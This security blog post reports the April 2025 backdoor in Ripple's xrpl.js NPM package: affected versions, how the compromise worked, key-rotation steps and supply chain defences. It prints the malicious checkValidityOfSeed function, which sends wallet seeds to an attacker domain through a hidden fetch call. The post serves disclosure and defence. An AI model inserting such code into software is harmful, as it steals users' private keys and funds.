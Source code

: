 ```yaml
---
title: 'Backdoored xrpl.js NPM Package Steals Keys (CVE‑2025‑32965)'
date: '2025-04-23'
authors: ['zerodaily']
tags: ['vulnerability', 'exploit', 'fraud', 'financial-sector']
draft: false
summary: "Multiple versions of Ripple's official xrpl.js NPM package were compromised with malicious code designed to steal cryptocurrency private keys, affecting versions 4.2.1-4.2.4 and 2.14.2. Immediate key rotation is recommended."
type: Blog
---
```


Security researchers at Aikido Security discovered that multiple versions of Ripple's official `xrpl.js` NPM package were compromised with malicious code designed to exfiltrate cryptocurrency private keys to an attacker-controlled server.[^1]

The backdoored library, which has over 140 000 weekly downloads, posed a significant security risk to XRP Ledger developers and users relying on the compromised versions.[^1]

## The Compromised Packages

The supply chain attack affected the following versions of the `xrpl.js` library:

- Version 4.2.1
- Version 4.2.2
- Version 4.2.3
- Version 4.2.4
- Version 2.14.2

The malicious packages were first published on April 21, 2025, at 20:53 GMT by a user named "mukulljangid". Notably, these versions did not match the official releases on GitHub, where the latest release was version 4.2.0, immediately raising suspicion.[^1]

## How the Backdoor Works

Aikido Security's threat intelligence system, Aikido Intel, detected suspicious code in the compromised versions of the package. The malicious code was inserted into `src/index.ts` and included a seemingly innocuous function called `checkValidityOfSeed` that secretly exfiltrated private keys.[^1]

```typescript
const validSeeds = new Set<string>([])
export function checkValidityOfSeed(seed: string) {
  if (validSeeds.has(seed)) return
  validSeeds.add(seed)
  fetch("https://0x9c[.]xyz/xc", { method: 'POST', headers: { 'ad-referral': seed, } })
}
```

This backdoor function was strategically placed in critical locations within the codebase, including the Wallet class constructor and various methods that handle key derivation. When users created wallets or imported keys, the malicious code would silently transmit their private keys to the attacker's server via HTTPS requests.[^1]

Researchers found that the attack evolved through multiple iterations, with earlier versions (4.2.1-4.2.2) containing manually modified JavaScript files, while later versions (4.2.3-4.2.4) had the backdoor directly inserted into the TypeScript source code.

## Impact and Remediation

The attack specifically targeted the NPM distribution of the package; the GitHub repository remained unaffected. Users who installed these compromised versions may have had their XRP wallet private keys compromised, potentially allowing attackers to gain unauthorized access to cryptocurrency funds.[^2]

The XRP Ledger Foundation quickly responded by releasing clean versions 4.2.5 and 2.14.3 to address the vulnerability. However, simply updating to a secure version is not sufficient for users who may have already been compromised.[^2]

Users who used any of the affected versions should take the following actions immediately:[^2]

1. **Rotate all cryptographic keys** used with the affected systems
2. **Transfer funds** to secure wallets with newly generated keys
3. **Disable compromised master keys** using the XRP Ledger's key rotation features
4. **Assign new regular key pairs** to affected accounts

## Supply Chain Security Considerations

This incident highlights the continuing risk of software supply chain attacks targeting package managers like NPM. The compromise demonstrates sophisticated techniques where attackers:

1. Released multiple versions with increasingly sophisticated backdoor implementations
2. Used domain names designed to appear non-suspicious (0x9c[.]xyz)
3. Targeted a widely-used cryptocurrency library with high-value assets.

Organizations using NPM packages in their development workflows should implement additional security measures such as:

- Using lockfiles to pin dependencies to verified versions
- Implementing integrity verification for package signatures
- Conducting regular security audits of dependency trees
- Monitoring for unexpected package version updates[^2]

## Final Thoughts

The xrpl.js backdoor incident represents a concerning evolution in supply chain attacks targeting the cryptocurrency sector. This was not an opportunistic attack but a sophisticated operation specifically designed to compromise high-value targets: cryptocurrency wallets holding potentially significant assets.[^1]

The rapid identification and response by the security community and the XRP Ledger Foundation demonstrate the value of independent security monitoring systems and transparent security processes.

What makes this attack particularly noteworthy is that it targeted official package releases rather than relying on typosquatting or dependency confusion techniques seen in previous npm attacks.

The threat actors gained access to publishing credentials for a legitimate package with a large user base, highlighting the critical importance of securing not just code repositories but also package publishing pipelines.[^2]

As software supply chain attacks continue to increase in sophistication, developers working in the cryptocurrency space must implement defense-in-depth strategies that assume compromise at some point in the dependency chain. This means implementing runtime protections, least-privilege principles, and comprehensive monitoring—especially when handling sensitive cryptographic operations.

### Related Articles

- [Windows NTLM Hash Leak CVE-2025-24054 Under Active Exploitation: Patch Now to Prevent Credential Theft](/blog/2025-04-18-windows-ntlm-cve-2025-24054-under-active-exploitation)
- [Oracle Cloud Credentials Leak: CISA Issues Urgent Guidance](/blog/2025-04-18-oracle-cloud-credentials-leak-cisa-guidance)
- [Critical Microsoft Zero-Day Vulnerability CVE-2025-29824: What You Need to Know](/blog/2025-04-08-microsoft-zero-day)

[^1]: [Aikido Security: XRP supply chain attack: Official NPM package infected with crypto stealing backdoor](https://www.aikido.dev/blog/xrp-supplychain-attack-official-npm-package-infected-with-crypto-stealing-backdoor)
[^2]: [GitHub Advisory Database: Compromised xrpl.js versions 4.2.1, 4.2.2, 4.2.3, 4.2.4, and 2.14.2 (GHSA-33qr-m49q-rxfx)](https://github.com/advisories/GHSA-33qr-m49q-rxfx)
